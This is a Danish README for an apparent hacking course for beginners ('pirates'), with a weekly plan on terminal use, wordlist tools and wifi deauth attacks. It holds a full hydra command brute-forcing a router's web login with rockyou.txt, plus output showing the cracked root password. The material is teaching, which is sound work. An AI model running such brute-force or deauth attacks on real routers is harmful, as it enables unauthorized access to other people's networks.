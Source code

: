 # pirathak
[![CC BY-NC-SA 4.0][cc-by-nc-sa-shield]][cc-by-nc-sa]

### TODO

- ***Vestmolen***
   - Skibsværftets scripts -> mangler funktionalitet...!
- ***Østmolen***
   - Piratbaren -> er helt tom
   - Skibsproviantering -> er helt tom
   - Vaskeriet -> er helt tom

---
---

Uge 36/ 6.september: introduktion terminal, filer, directories
 - Piraterne skal kunne forstå filstruktur i homedirectory
 - Skal kunne bevæge sig i filstrukturen, komme hjem, lave filer, directories
 - Vise filer med cat, bruge less/ more

Uge 37/ 13.september: wordlists og brute force angreb
 - Grundlæggende forståelse af wifi teknologi
 - Forståelse af at generere ordlister med crunch
 - Kunne scanne efter wifi netværk
 - Kunne lave et brute force angreb

Brute force eksempel på at hacke et router interface (en http form) - det kan vi ikke gøre med wifi?!
```
hydra -l root -P ./rockyou.txt -t 9 -V -I 192.168.1.1 http-post-form "/cgi-bin/luci:username=^USER^&password=^PASS^:Invalid username"
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-21 23:21:36
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 9 tasks per 1 server, overall 9 tasks, 14344399 login tries (l:1/p:14344399), ~1593823 tries per task
[DATA] attacking http-post-form://192.168.1.1:80/cgi-bin/luci:username=^USER^&password=^PASS^:Invalid username
[ATTEMPT] target 192.168.1.1 - login "root" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "princess" - 6 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "1234567" - 7 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "rockyou" - 8 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "12345678" - 9 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "abc123" - 10 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "nicole" - 11 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "daniel" - 12 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "babygirl" - 13 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "monkey" - 14 of 14344399 [child 4] (0/0)
[80][http-post-form] host: 192.168.1.1   login: root   password: princess
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-08-21 23:22:21
```

Uge 38/ 20.september: deauth angreb og generering af wordlists
 - Brug af f.eks. cewl (web scraping), cupp (profilering)
 - Brug af wifite


This work is licensed under a
[Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License][cc-by-nc-sa].

[![CC BY-NC-SA 4.0][cc-by-nc-sa-image]][cc-by-nc-sa]

[cc-by-nc-sa]: http://creativecommons.org/licenses/by-nc-sa/4.0/
[cc-by-nc-sa-image]: https://licensebuttons.net/l/by-nc-sa/4.0/88x31.png
[cc-by-nc-sa-shield]: https://img.shields.io/badge/License-CC%20BY--NC--SA%204.0-lightgrey.svg
